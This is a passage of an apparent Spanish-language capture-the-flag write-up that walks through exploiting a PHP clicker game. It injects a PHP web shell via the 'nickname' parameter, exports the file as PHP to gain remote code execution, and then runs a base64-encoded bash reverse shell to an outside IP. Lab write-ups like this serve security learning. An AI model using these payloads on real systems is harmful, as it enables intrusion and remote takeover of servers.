 Sabiendo esto, podriamos intentar cambiar la extension a PHP para intentar ejecutar codigo PHP, pero antes, en el archivo **exports.php** podemos ver que cuando se selecciona uno de los formatos para exportar, existe otro parametro con el nombre de **nickname** (ejemplo del codigo del formato TXT)

```php
if ($_POST["extension"] == "txt") {
    $s .= "Nickname: ". $currentplayer["nickname"] . " Clicks: " . $currentplayer["clicks"] . " Level: " . $currentplayer["level"] . "\n";
    foreach ($data as $player) {
    $s .= "Nickname: ". $player["nickname"] . " Clicks: " . $player["clicks"] . " Level: " . $player["level"] . "\n";
  }
```

Asi mismo en el archivo **authenticate.php** tambien podemos ver la existencia de ese parametro:

```php
if(check_auth($_POST['username'], $_POST['password'])) {
		$_SESSION["PLAYER"] = $_POST["username"];
		$profile = load_profile($_POST["username"]);
		$_SESSION["NICKNAME"] = $profile["nickname"];
		$_SESSION["ROLE"] = $profile["role"];
		$_SESSION["CLICKS"] = $profile["clicks"];
		$_SESSION["LEVEL"] = $profile["level"];
		header('Location: /index.php');
```

Haremos lo mismo que en la parte de CRLF injection, pero agregando ese nuevo parametro, por lo que la peticion quedaria asi:

```ruby
GET /save_game.php?clicks=29&level=0&nickname=<%3fphp+system($_GET['comando'])+%3f> HTTP/1.1
```
Y en la parte para exportar el resultado volvemos a interceptar la peticion y le cambiamos el formato a PHP

Podemos ver que se puso en formato PHP

![](/assets/img/clicker/3.png)

Y al ingresar a la URL, veremos que hecmos conseguido RCE:

![](/assets/img/clicker/4.png)

Ahora solo queda enviarnos  una reverse shell

```ruby
echo "sh -i >& /dev/tcp/10.10.15.96/443 0>&1" | base64
```

Y en la URL ponemos: ?comando=echo "<base64>" | base64 -d | bash

Y nos deberia de llegar

![](/assets/img/clicker/5.png)

## www-data -> jack
